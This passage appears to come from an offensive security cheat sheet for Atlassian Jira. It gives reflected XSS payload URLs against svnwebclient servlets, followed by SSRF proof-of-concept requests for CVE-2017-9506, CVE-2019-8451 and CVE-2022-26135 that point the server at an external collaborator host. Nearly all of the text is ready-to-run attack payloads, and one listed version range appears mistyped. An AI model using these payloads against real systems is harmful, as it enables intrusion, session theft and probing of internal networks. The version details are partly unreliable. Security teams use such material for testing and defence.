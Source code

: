 Copy

```
https://<JIRA>/plugins/servlet/svnwebclient/changedResource.jsp?url=%22%3E%3Cscript%3Ealert(document.domain)%3C%2Fscript%3E'
https://<JIRA>/plugins/servlet/svnwebclient/commitGraph.jsp?%27)%3Balert(%22XSS'
https://<JIRA>/plugins/servlet/svnwebclient/commitGraph.jsp?url=%22%3E%3Cscript%3Ealert(document.domain)%3C%2Fscript%3E'
https://<JIRA>/plugins/servlet/svnwebclient/error.jsp?errormessage=%27%22%3E%3Cscript%3Ealert(document.domain)%3C%2Fscript%3E&description=test'
https://<JIRA>/plugins/servlet/svnwebclient/statsItem.jsp?url=%3Cscript%3Ealert(document.domain)%3C%2Fscript%3E'
```

***

#### SSRF <a href="#ssrf" id="ssrf"></a>

**CVE-2017-9506**

**Version**: `1.3.0 <= x < 1.9.12`, `2.0.0 <= x < 2.0.4` (The IconUriServlet of the Atlassian OAuth Plugin version) **CVSS 3.x**: `6.1 MEDIUM AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N` **Privileges Required**: `None` **Explanation**: This vulnerability allows remote attackers to access the content of internal network resources and/or perform an XSS attack via Server Side Request Forgery **POC**: `https://<JIRA>/plugins/servlet/oauth/users/icon-uri?consumerUri=https://colaborator`

**CVE-2019-8451**

**Version**: `< 8.4.0` (Jira version) **CVSS 3.x**: `6.5 MEDIUM AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:N` **Privileges Required**: `None` **POC**: `https://<JIRA>/plugins/servlet/gadgets/makeRequest?url=https://<host_name>:1337@example.com`

**CVE-2022-26135**

**Version**: `8.0.0 <= x < 8.13.22`, `8.14.0 <= x < 8.20.10`, `8.21.0 <= x < 8.22.4` (Jira version) **Version**: `4.0.0 <= x < 4.13.22`, `4.14.0 <= x < 8.20.10`, `4.21.0 <= x < 4.22.4` (Jira Management Server and Data Center version) **CVSS 3.x**: `6.5 MEDIUM AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N` **Privileges Required**: `Low` **POC**:

Copy

```
POST /rest/nativemobile/1.0/batch HTTP/2
Host: <JIRA>
Cookie: JSESSIONID=...; seraph.rememberme.cookie=...; atlassian.xsrf.token=...
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Content-Type: application/json
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Origin: https://<JIRA>
Referer: https://<JIRA>/plugins/servlet/desk
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Length: 63

{"requests":[{"method":"GET","location":"@example.com"}]}
```
